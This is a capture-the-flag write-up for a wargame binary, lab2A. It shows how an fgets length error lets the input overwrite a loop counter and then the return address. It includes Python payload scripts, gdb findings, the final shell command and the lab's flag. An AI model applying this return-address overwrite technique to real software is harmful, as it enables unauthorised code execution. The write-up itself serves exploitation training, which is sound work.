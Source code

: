 Using gdb we can find `shell()` is at 0x080486fd.

We find we can overwrite `i` since `fgets` has the wrong max length (`0x10` vs `10`). Using this, we can force the loop to iterate more than ten times, which will subsequently overflow `cat_buf`, eventually hitting the return address.

Let's construct our payload, knowing we have a few required steps:
1. Overflow `i` such that it's greater than 10
2. Put a different character on each line

We can do this with the following short script:

```python
print('X'*16) # Overflow into i

for c in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ':
    print(c)
```

Running `./lab2A` with gdb and piping this script in as input, we see that EIP is overwritten to `0x5a595857` -> `ZYXW`. Looks like the very end of our input hit the return address. Nice one!

Now we can update our script to insert the address of `shell()` where `WXYZ` were:

```python
print('X'*16)

for c in 'ABCDEFGHIJKLMNOPQRSTUV':
    print(c)

# Now insert the return address
address = '\x08\x04\x86\xfd'[::-1] # Remember to use little endian

for c in address:
    print(c)
print('')
```

This gives us a slightly frustrating result:

```console
lab2A@warzone:/levels/lab02$ cat /tmp/out.txt | ./lab2A
Input 10 words:
Failed to read word
You got it
Segmentation fault (core dumped)
```

We seem to be dropping into a shell and then exiting. This is happening because our STDIN is dying, so we can fix this by adding another `cat` command after sending our payload. Our final command becomes:

`(cat /tmp/out.txt; cat) | ./lab2A`

`lab2end:D1d_y0u_enj0y_y0ur_cats?`